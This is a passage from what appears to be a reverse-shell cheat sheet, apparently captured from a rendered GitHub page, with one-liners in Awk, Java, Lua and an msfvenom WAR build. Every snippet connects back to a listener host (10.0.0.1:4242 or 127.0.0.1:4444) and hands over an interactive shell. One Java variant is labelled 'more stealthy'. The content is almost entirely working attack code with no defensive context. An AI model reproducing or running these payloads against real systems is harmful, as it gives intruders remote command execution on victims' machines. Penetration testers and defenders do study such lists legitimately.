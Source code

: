 ### Awk

```
  awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### Java

```
  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()
```

#### Java Alternative 1

```
  String host="127.0.0.1";
  int port=4444;
  String cmd="cmd.exe";
  Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

#### Java Alternative 2

*NOTE*: This is more stealthy

```
  Thread thread = new Thread(){
      public void run(){
          // Reverse shell here
      }
  }
  thread.start();
```

### War

```
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
  strings reverse.war | grep jsp # in order to get the name of the file
```

### Lua

Linux only

```
  lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
